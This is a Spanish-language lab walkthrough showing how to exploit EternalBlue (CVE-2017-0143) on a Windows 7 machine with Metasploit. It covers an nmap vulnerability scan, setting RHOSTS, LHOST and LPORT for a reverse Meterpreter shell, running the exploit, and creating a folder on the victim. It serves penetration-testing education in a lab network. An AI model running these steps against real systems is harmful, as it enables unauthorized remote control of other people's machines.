

# Uso Básico de Metasploit – Explotación EternalBlue

Maquinas que vamos a utilizar Kali Linux y Windows 7 vulnerable

Hemos hecho la búsqueda de equipos en la red y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades 

```bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado: 



Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```bash
    sudo msfdb init && msfconsole 
    ```
    
    <aside>
    💡
    
    **`sudo msfdb init`**:
    
    - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    
    **`&&`**: 
    
    - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    
    **`msfconsole`**:
    
    - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    </aside>
    

O desde el **menú de aplicaciones**:


- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    
    
    
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        
        
        <aside>
        💡
        
        Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        
        **Exploit**:
        
        - Un ***exploit*** es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        
        **Payload**:
        
        - Un ***payload*** es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        - Los payloads pueden realizar varias acciones: abrir una puerta trasera (*backdoor*), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        </aside>
        
        
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            
            
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        
        
        
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        
        
        
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        
        
        
        
        
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.